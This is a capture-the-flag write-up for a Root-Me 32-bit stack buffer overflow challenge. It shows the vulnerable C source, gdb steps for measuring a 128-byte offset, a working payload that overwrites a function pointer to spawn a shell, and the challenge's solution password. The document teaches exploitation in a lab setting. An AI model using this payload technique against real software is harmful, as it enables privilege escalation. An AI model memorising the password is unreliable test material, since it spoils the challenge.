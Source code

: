 # ELF x86 - Stack buffer overflow basic 2
- Point: 10pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en), 10 April 2015
- Level: Very Easy <br><br>
![image](https://user-images.githubusercontent.com/48288606/141502136-47d2b4bd-50fe-47af-80a9-e3c294bfbf01.png)

## Write-up:
Code:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

- As a normal code flow, the program will point to the address of **sup()** function and execute it. So we need to override the "ret addr" and point it to **shell()** function. - Using gdb and disassembler the **main()** function and save the address of **shell (0x08048516)** <br>
**Note:** In this code, we overflow the buffer inside **sup** function.

![image](https://user-images.githubusercontent.com/48288606/146747232-e78b70c2-9af0-413a-a20d-2b39be64cf96.png)
 
- Set breakpoint at **fgets function**. Run the program
```
gdb-peda$ b*main+0
Breakpoint 1 at 0x8048584
```

-  Input `aaaaaaaa`and watch the value. 

![image](https://user-images.githubusercontent.com/48288606/146749346-4e182441-effa-4519-8d5a-09a2d4452c7a.png)

- Our input's at **0xbffffa9c**. Now watch the return address of **sup function**.

![image](https://user-images.githubusercontent.com/48288606/146752691-aa64fb0d-7b34-4ea0-ab63-1097ee23671f.png)


- **sup** is at **0xbffffb1c**. Calculate the distance from **buffer** to address of **sup** function.
```
gdb-peda$ p/d 0xbffffb1c-0xbffffa9c
$5 = 128
```

### Solution:
- First we will fill the **buf**'s value with 128 "A" characters, and then push the address of the **shell()** function. <br>
Payload: `(python -c "print('a'*128+'\x16\x85\x04\x08')";cat) | ./ch15` <br>
Password: B33r1sSoG0oD4y0urBr4iN

